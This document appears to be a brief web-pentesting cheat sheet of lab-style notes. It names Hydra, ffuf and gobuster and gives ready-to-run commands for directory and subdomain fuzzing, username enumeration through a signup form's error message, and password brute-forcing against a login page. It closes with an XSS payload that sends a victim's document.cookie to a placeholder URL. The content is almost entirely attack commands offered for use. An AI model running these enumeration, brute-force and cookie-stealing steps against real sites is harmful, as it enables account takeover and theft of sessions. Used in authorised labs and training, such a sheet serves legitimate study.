 # WEB 

## TOOLS
- **[Hydra](https://www.kali.org/tools/hydra/)** : Logon cracker for many services
- **[ffuf](https://www.kali.org/tools/ffuf/)** : Web Fuzzer
- **[gobuster](https://www.kali.org/tools/gobuster/)** : Web Brute-force tools

## COMMANDS
**Discovery files/folders**  
<pre> gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` </pre>

**Enumerate on subdomains**  
<pre> ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.DOMAIN" -u http://MACHINE_IP` </pre>

**Enumerate on users**  
<pre> ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/signup -mr "username already exists"` </pre>

**Bruteforce users**  
<pre> ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200` </pre>

**XSS Cookie Grabber**  
<pre> <script> document.write('<IMG SRC=URL?cookie='+document.cookie+'/>')</script>` </pre>
